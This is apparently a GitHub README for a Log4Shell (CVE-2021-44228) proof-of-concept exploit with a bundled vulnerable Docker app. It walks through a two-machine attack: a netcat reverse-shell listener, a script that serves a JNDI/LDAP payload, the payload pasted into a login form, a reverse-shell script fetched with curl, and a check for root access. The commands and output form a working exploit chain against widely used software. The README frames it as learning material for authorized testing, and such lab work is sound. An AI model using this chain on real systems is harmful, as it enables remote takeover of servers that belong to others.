 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Kudos to kozmer for the POC. I just added some niceties for demoing purposes and added the Waratek agent.<br><br>

Setup
----------------------------------------

This works best with two machines. I prefer to spin up 2 droplets on Digital Ocean because it's cheap for test purposes.<br><br>
One machine acts as the target while the other acts as the attacker.<br><br>
Before moving forward, download the following version of Java SE Development Kit `java-8u20` here: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html<br><br>

Prep
----------------------------------------

- Move the extracted archive for the Java SE Development Kit into the root of this repo
- Upload the root of this repo with the extracted Java SE Development Kit into your attacker machine
- Ensure that `python3` is installed on your attacker machine (if not follow guide here: https://www.digitalocean.com/community/tutorials/how-to-install-python-3-and-set-up-a-programming-environment-on-an-ubuntu-20-04-server)
- Upload the root of this repo without the extracted Java SE Development Kit into your target machine

Steps to Follow
----------------------------------------

#### Start the vulnerable application on the target machine with the following commands

```bash
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```

Note: This runs the application without the Waratek Security-as-Code platform. More information on implementing the platform below.<br><br>

#### Prep the exploit

- On the attacker machine open 2 shells: One to listen for the reverse shell, and one to run the server
- On the first shell for the attacker machine, open a port with netcat: `nc -lvnp 9001`
- On the second shell for the attacker machine, start the webserver that will deliver the exploit payload with: `python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001` where `{attackerIP}` is the IP address of the attacker machine
- When the web server launches, you'll receive a payload in the ouput. Copy the payload and open up the vulnerable application in your browser.
- Paste the payload into the email field and put in any value as the password, then press "Sign in."
- The browser should hang and then on the attacker machine shell with netcat running you should see a connection established.
- Download this reverse shell Python script with: `curl -O https://gist.githubusercontent.com/jacobwarren/0abf1c5d3d2e969ac8dfcc5a10abf8e8/raw/7dce0c1924c06c20c1471bc4c0824704024c535c/revsh.py`
- Then run it with `python3 revsh.py` to establish a TTY
- Now run `$ WHOAMI` to verify that you're indeed root.

```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

#### Requirements:


Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

As a PoC we have created a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

